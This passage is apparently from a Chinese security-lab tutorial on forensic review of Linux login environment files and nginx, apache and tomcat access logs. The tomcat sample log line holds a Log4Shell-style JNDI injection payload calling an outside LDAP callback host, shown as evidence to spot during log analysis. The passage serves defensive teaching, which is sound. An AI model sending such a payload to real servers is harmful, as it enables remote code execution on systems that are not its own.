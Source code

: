 这些文件用于设置系环境变量或启动程序，每次Linux登入或切换用户都会触发这些文件。

![linux执行顺序](F:/%255CTemp%255Cpath%255C562b478e779399ff1f9e5d2df17fff5e.png)

图1 Linux登入环境环境变量触发顺序

切换用户时也会触发环境变量文件

```bash
vulab@sechelper:~$ sudo su
```

### [~/.bash_logout](#bash_logout)

登出账户时触发。

```
vulab@sechelper:~$ exit
logout
~/.bash_logout
```

## [中间件日志](#中间件日志)

中间件是介于应用系统和系统软件之间的一类软件，它使用系统软件所提供的基础服务（功能），衔接网络上应用系统的各个部分或不同的应用，能够达到资源共享、功能共享的目的。

### [nginx](#nginx)

```
220.181.108.159 - - [01/Dec/2022:15:10:15 +0800] "GET / HTTP/1.1" 403 134 "-" "Mozilla/5.0 (Linux;u;Android 4.2.2;zh-cn;) AppleWebKit/534.46 (KHTML,like Gecko) Version/5.1 Mobile Safari/10600.6.3 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)"
```

### [apache](#apache)

```
192.168.111.1 - - [01/Dec/2022:07:20:05 +0000] "GET /admin.php HTTP/1.1" 404 491 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0"
```

### [tomcat](#tomcat)

```
192.168.111.1 - - [01/Dec/2022:08:28:25 +0000] "GET /admin.jsp$%7Bjndi:ldap://2lnhn2.ceye.io%7D HTTP/1.1" 404 767
```

### [分析维度：](#分析维度)

- 时间范围内IP访问量
- 时间范围内对某个页面的IP访问量
- 时间范围内IP访问错误数
- 关键字搜索

### [参考：](#参考)
